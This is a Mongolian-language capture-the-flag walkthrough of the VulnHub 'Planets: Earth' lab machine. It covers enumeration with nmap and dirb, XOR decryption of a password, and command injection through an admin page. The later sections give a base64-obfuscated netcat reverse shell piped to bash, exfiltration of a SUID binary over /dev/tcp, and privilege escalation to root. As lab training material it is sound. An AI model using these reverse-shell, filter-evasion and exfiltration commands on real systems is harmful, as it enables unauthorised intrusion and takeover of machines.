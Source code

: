 ![image](https://github.com/Bultuush/Machine/assets/129934501/ac6d2c1d-47cd-4328-a881-ada537ee8043)# Machine1 "THE PLANETS: EARTH"
1. Target-ын мэдэээл авах netdiscover командыг хийснээр бидний зорилтот IP гэж юу болохыг харах боломжтой
![1](https://github.com/Bultuush/Machine/assets/129934501/baf59437-0b31-484f-93a3-d8f46e00e7b3)
Target-ын IP хаяг 192.168.56.103
![image](https://github.com/Bultuush/Machine/assets/129934501/6156076b-0be7-40cc-a88d-2e48fc7156a9)
**nmap -sV 192.168.10.13**
-sV --> Энэ сонголт нь Nmap-д хувилбар илрүүлэхийг хэлдэг.
![image](https://github.com/Bultuush/Machine/assets/129934501/c3650dd7-fef8-48d7-9ad0-43d3cb26508c)
Би энд нэмсэн -p- - бүх портуудыг скан, -v - дэлгэрэнгүй горимыг сканнерын явцын талаар мэдээлэл авах боломжтой.
22,80, 443 гэсэн 3 порт нээлттэй байгааг бид харж байна. Энэ портуудын ажиллаж байгаа үйлчилгээ эмзэг байгаа эсэхийг шалгах нь үргэлж сайн арга тул https://www.exploit-db.com/ хаягийг шалгана уу. Гэхдээ энэ тохиолдолд мөлжлөг илрээгүй.
Дараа нь яах вэ? Мөнгөн усны хайрцагт байгаа шиг Dirb-ийг ашиглацгаая https://medium.com/@wiktorderda/vulnhub-the-planets-mercury-ctf-10c35ab7607d
![image](https://github.com/Bultuush/Machine/assets/129934501/a3e3120f-58f6-4206-a517-3bcec230a1af)
Ажиллуулах command:
**dirb http://192.168.10.13**
Та үгийн жагсаалтыг зааж өгөх шаардлагагүй - энэ нь анхдагчаар common.txt байна, гэхдээ хэрэв та хүсвэл үүнийг өөр зүйл болгон өөрчилж болно.
Энэ тохиолдолд dirb зөвхөн /cgi-bin олддог. Үүнд хандах боломжтой эсэхийг шалгацгаая:
![image](https://github.com/Bultuush/Machine/assets/129934501/dc42648e-182f-4d6b-a87f-eb87b7eaf8e0)
Иймд хандах боломжгүй, мөн http://192.168.10.13 руу очвол бид Муу хүсэлт(400) алдаа авах болно. Гэсэн хэдий ч бидэнд 443 порт нээлттэй байгаа тул https://192.168.10.13-ээр дамжуулан сайт руу орвол юу болохыг шалгацгаая.
![image](https://github.com/Bultuush/Machine/assets/129934501/32d4226a-4436-4dd5-8408-e73f55088f66)
Бидэнд Fedora админ хуудас байгаа ч үнэхээр хэрэгтэй зүйл байхгүй. Гэсэн хэдий ч бид зорилтот талаараа ямар нэг зүйлийг олох хэрэгтэй, энэ бол бидний авсан цорын ганц зөвлөгөө бөгөөд мэдээлэл нь хаа нэгтээ байх ёстой
Сайтын SSL сертификатыг шалгаад та дараах мэдээллийг авах болно.
![image](https://github.com/Bultuush/Machine/assets/129934501/d9371d99-672a-4a87-83d0-5e5048235dc6)
Тиймээс бид Дэлхий хуудсыг амжилттай харахын тулд Кали хайрцагт байхгүй байгаа DNS нэрийг харж болно.
![image](https://github.com/Bultuush/Machine/assets/129934501/65b2673c-092c-4417-b7de-847c2fa1efe2)
Run command :
**echo "192.168.10.13 earth.local" >> /etc/hosts
echo "192.168.10.13 terratest.earth.local" >> /etc/hosts**

За, үүний дараа хуудсууд хэрхэн харагдахыг харцгаая, дэлхий рүү яв. local-ыг шалгана уу
![image](https://github.com/Bultuush/Machine/assets/129934501/5c322281-0302-462d-a660-96173edc44e2)
Хуудсууд өөр өөр харагдаж байгааг та харж байгаа тул бид зурвасын хайрцаг болон доод хэсэгт зарим мессежийг авсан
![image](https://github.com/Bultuush/Machine/assets/129934501/1f3f391d-f758-4777-a934-3a5a4482aee4)
#**Хэрэглэгчийн нууц үгийг авч байна**

За, бидэнд байгаа ч энэ нь юу болохыг мэдэхгүй байгаа тул далд сангуудыг дахин хайхын тулд dirb-г дахин ажиллуулах нь зүйтэй.
![image](https://github.com/Bultuush/Machine/assets/129934501/a34738cf-d010-4832-a9a5-4ea54c72b9ba)
![image](https://github.com/Bultuush/Machine/assets/129934501/7fbe1214-c104-4cfc-9386-bd71925f837b)
Ажиллуулах тушаал:
**dirb http://earth.local
dirb https://terratest.earth.local**

Одоо хараарай, би http://terratest.earth.local-г ажиллуулахдаа earth.local-тай ижил үр дүн авсан тул оронд нь https:// нэмэх шаардлагатай болсон.
Бидэнд ямар лавлахууд онцгой сонирхолтой болохыг харж болно.
Earth.local-д бид /admin, terratest.earth.local-д /index.html болон /robots.txt байна.
Хөтөч дээр https://terratest.earth.local/robots.txt гэж бичээд robots.txt-г нээнэ үү.
![image](https://github.com/Bultuush/Machine/assets/129934501/3c076bdd-57f9-4b1c-88ee-21affd222f38)
Бид testingnotes.txt гэсэн нэг сонирхолтой нэмэлттэй txt файлтай болсон
Тиймээс бид үүнийг нээгээд дараах зүйл гарч ирнэ.
![image](https://github.com/Bultuush/Machine/assets/129934501/21df813f-c5f8-45bc-8db3-a07a50f1334b)
XOR шифрлэлт нь дэлхийн үндсэн хуудсан дээр бидний харсан мессежүүдийг шифрлэхэд ашиглагдаж байсныг бид мэднэ! Хэрэв та анхааралтай уншвал: testdata.txt нь шифрлэлтийг шалгахад ашиглагдаж байсан тул testdata.txt файлыг нээх боломжтой эсэхийг харцгаая.
![image](https://github.com/Bultuush/Machine/assets/129934501/dda25335-0a85-4fa7-a39a-6eb3a1db458c)
За - энэ хүртэл бидэнд байгаа бүх зүйлийг нэгтгэн дүгнэвэл:

Бид testingnotes.txt-аас terra <- гэсэн хэрэглэгчийн нэртэй
* Бидэнд earh.local хуудаснаас шифрлэгдсэн мессеж байна
* Бидэнд testdata.txt гэсэн шифрлэлтийн түлхүүр байгаа бөгөөд мессежийг тайлахад ашиглаж болно
* Earth.local/admin-д админ хуудас байдгийг бид мэдэж байгаа тул мессежийн кодыг тайлахдаа түүн рүү нэвтрэх арга замыг олж мэдэх боломжтой.
Ингээд CyberChef-д очоод мессежүүд нь юу болохыг харцгаая!
https://gchq.github.io/CyberChef/
![image](https://github.com/Bultuush/Machine/assets/129934501/ec0b20d3-312c-4557-bf67-0bec1f4cbbee)
Бид testdat-г түлхүүр болгон оруулаад үндсэн хуудаснаас мессежийг оруулга руу хуулна.
Хоол хийцгээе! Бид terra дансны нууц үгтэй!
Earth.local/admin руу ороод нэвтэрнэ үү.
Одоо бид хайрцаг дээрх тушаалуудыг гүйцэтгэж болно!
![image](https://github.com/Bultuush/Machine/assets/129934501/af57d087-bbef-4812-a68f-9eb62cd0f00b)
![image](https://github.com/Bultuush/Machine/assets/129934501/40724b4d-f66a-4228-be77-7ebaaeb119dc)
Командыг ажиллуулна уу:
**cd /гэр; ls -al;pwd**
Үүнээс бид хавтас /home болон user earth байгааг харж болно
![image](https://github.com/Bultuush/Machine/assets/129934501/92a4d335-7346-40f9-8839-30b70fc0e844)
Гэсэн хэдий ч тушаалыг ажиллуулна уу
**ls /var/earth_web/**
Далбаа нуугдсан earth_web хавтсыг шалгахын тулд. Туг хаана байгааг би яаж мэдэх вэ? Би зүгээр л ls командын тусламжтайгаар фолдеруудыг хавтас тус бүрээр нь тоолж, хавтаснуудын агуулгыг шалгадаг.
![image](https://github.com/Bultuush/Machine/assets/129934501/d43e8a42-d0c4-4f5d-a3f5-8667bf861f79)
![image](https://github.com/Bultuush/Machine/assets/129934501/07ab64a7-8e6f-4c15-93f6-b60f54c4bd8f)
За, бидэнд хэрэглэгчийн flag байна. Үндсэн flag-ийг хэрхэн олж авах вэ?
# Зорилтот системд холбогдож байна
Тиймээс зорилтот компьютерт холбогдох хамгийн үр дүнтэй арга бол netcat сонсогч ашиглах явдал юм.
CLI командын цонхонд тушаалыг ажиллуулна уу:
**nc -e /bin/bash 192.168.56.101 4444**
Энд 4444 нь манай netcat холболтын портын дугаар юм. Run командыг дарахаас өмнө терминал дээр дараах тушаалыг гүйцэтгэнэ.
**nc -lvnp 4444**
![image](https://github.com/Bultuush/Machine/assets/129934501/c6d486b5-2b2a-4ddd-87e1-cf0a3d10da7b)
Run командын товчийг дарахаас өмнө таны дэлгэц иймэрхүү харагдах ёстой.
Дарсан уу? Тэгээд одоо яах вэ? Зорилтот компьютерээс алсаас холбогдохыг зөвшөөрөөгүй тул амжилтгүй болсон. Гэсэн хэдий ч бид зорилтот машиныг хууран мэхэлж, хүссэн зүйлээ хийх боломжтой. Бид тушаалыг шифрлээд, түүнийг тайлж, нэгэн зэрэг ажиллуулахыг албадах хэрэгтэй.
Эхлээд бид netcat listener командын шифрийг тайлах хэрэгтэй бөгөөд энэ нь:
**nc -e /bin/bash 192.168.56.101 4444**
Терминал цонхыг нээгээд доорх тушаалыг ажиллуулна уу:
**echo 'nc -e /bin/bash 192.168.56.101 4444' | base64**
Үүний үр дүн нь кодлогдсон netcat тушаал болох тэмдэгтүүдийн санамсаргүй мөр байх болно
![image](https://github.com/Bultuush/Machine/assets/129934501/6b8ce564-8ce4-4f28-83ab-acfcafcc3669)
CLI команд руу хуулсан хатгалттай бол үүнийг ажиллуулна уу:
**echo 'өөрийн_кодлогдсон_мөрийг_энд_тавих' | base64 -d | bash**
**d** нь код тайлахад зориулагдсан
bash нь энэ командыг скрипт болгон ажиллуулахыг албадах зориулалттай
![image](https://github.com/Bultuush/Machine/assets/129934501/170f15e6-7f45-44b1-a3c7-042650b88a16)
![image](https://github.com/Bultuush/Machine/assets/129934501/183fdb0d-e5b8-4087-bf57-1898c8c2d4ca)
Run команд дээр дарвал сервер хэсэг хугацаанд зогсох боловч netcat сонсогчийг харна уу. Бид холболттой болсон.
# Үндсэн бүртгэл авч байна
Эхний команд нь whoami бөгөөд энэ нь биднийг "апачи" гэдгийг харуулж байна.
За, одоо яах вэ? Бид сул файлын зөвшөөрлийг хайх болно. Энэ нь бид apache хэрэглэгчийн root эрхээр ажиллуулж болох файл хайж байна гэсэн үг.
Бид энэ командыг ажиллуулах хэрэгтэйг олж мэдэхийн тулд (энэ нь ашиглаж болох эдгээр эмзэг байдлыг олоход тань туслах маш хэрэгтэй команд бөгөөд үүнийг хадгалаарай!)
**Find / -perm -u=s -type f 2>/dev/null**
![image](https://github.com/Bultuush/Machine/assets/129934501/a0063914-410e-413b-9749-26067c28e44c)
Тиймээс reset_root файлыг шалгая, сонирхолтой харагдаж байна. Эхлээд файлын мэдээллийг шалгаад дараа нь файлыг ажиллуулахыг оролдож болно.
Мэдээллийг шалгахын тулд **/usr/bin/reset_root** файлыг ажиллуул
Файлыг ажиллуулахын тулд: **reset_root**-г ажиллуулна уу
![image](https://github.com/Bultuush/Machine/assets/129934501/3634cbbf-9889-4974-acdf-de407747ff7e)
![image](https://github.com/Bultuush/Machine/assets/129934501/12748f64-4a5f-4ea8-a61a-9691a96d73f0)

За, одоо байгаа шиг файлыг гүйцэтгэх боломжгүй байгаа нь тодорхой байна, бид үүнийг хийх явцад алдаа гарлаа, бид netcat-ээр файлд дүн шинжилгээ хийх боломжгүй байна. Бид бусад хэрэгслийг ашиглахын тулд файлыг Кали руу илгээх хэрэгтэй.
# Файлыг netcat-ээр хэрхэн илгээх вэ?
Кали дээрх өөр терминал дээр өөр netcat сонсогчийг эхлүүлээрэй
Энэ командыг ажиллуулна уу: **nc -lvnp 3333 > reset_root**
Бид зорилтот систем дээр байгаа нөгөө netcat сесс дээр
Командыг ажиллуулна уу: **cat /usr/bin/reset_root > /dev/tcp/192.168.56.101 3333**
![image](https://github.com/Bultuush/Machine/assets/129934501/2ef29652-0399-41cc-a75e-4bba0dd320d4)

![image](https://github.com/Bultuush/Machine/assets/129934501/6535e0ec-9d6f-4021-aaa9-8d7fb217d53a)

Манай системд файл байгаа

![image](https://github.com/Bultuush/Machine/assets/129934501/754f26de-304b-4f74-8646-356ff2052f96)

Энгийн cat командыг ажиллуулж файлыг шалгацгаая
![image](https://github.com/Bultuush/Machine/assets/129934501/55033235-1acf-4a49-80bd-30154f6ff59a)
Мөн зохих хэрэгсэлгүйгээр бид юу нь буруу, яагаад файлыг зорилтот систем дээр ажиллуулах боломжгүй байгааг тодорхойлох боломжгүй хэвээр байна. Бид ltrace хэмээх хэрэгслийг суулгах ёстой. Хэрэв танд байхгүй бол y дээр дарж зөвшөөрч суулгана уу.
Одоо бид файлын агуулгыг харж болно, тушаалыг ажиллуулна уу:
**ltrace ./reset_root**
![image](https://github.com/Bultuush/Machine/assets/129934501/84340cd3-389c-4e0c-a7b2-9d574e2c0c77)

Файлыг зөв ажиллуулахын тулд дутуу байгаа 3 файлыг тодруулсан. Тиймээс бид эдгээр файлуудыг зорилтот систем дээрх netcat холболтоор үүсгэх хэрэгтэй. Манай netcat сонсогч руу буцаж шилжиж, дутуу байгаа файлуудыг үүсгэнэ үү
![image](https://github.com/Bultuush/Machine/assets/129934501/b145e88f-42ee-43f3-8830-8fd61d27dad3)

Энэ файлуудыг үүсгэхийн тулд: touch + filepath (ltrace үр дүнгээс хуулсан) командыг ажиллуулаад Enter дарна уу.
reset_root файлыг ажиллуул!
![image](https://github.com/Bultuush/Machine/assets/129934501/47839843-c43e-4a69-961d-b4202285795e)

Агуу их! Бид файлыг ажиллуулсан бөгөөд одоо үндсэн нууц үгийг "Дэлхий" болгож шинэчиллээ.
Энэ командыг ажиллуулж root бүртгэл рүү шилжье: **su root**
![image](https://github.com/Bultuush/Machine/assets/129934501/01de08d5-f288-4a68-a1a3-57034e630bb7)

Одоо та үндсэн flag-ийг хайх хэрэгтэй
![image](https://github.com/Bultuush/Machine/assets/129934501/d8d3b369-cfb5-4963-a9cf-f52f150bc429)

Эцэст нь энэ нь хийгдсэн! Энэ нь амаргүй байсан ч бид зарим нэг заль мэх хийх хэрэгтэй. Энэ нь эхний хайрцгаас илүү хэцүү гэж би хэлэх болно, гэхдээ энэ нь жагсаалтын сүүлчийн гараг болох Сугар гарагаас илүү хялбар байх болно. Танд алхалт таалагдсан гэж найдаж байна.
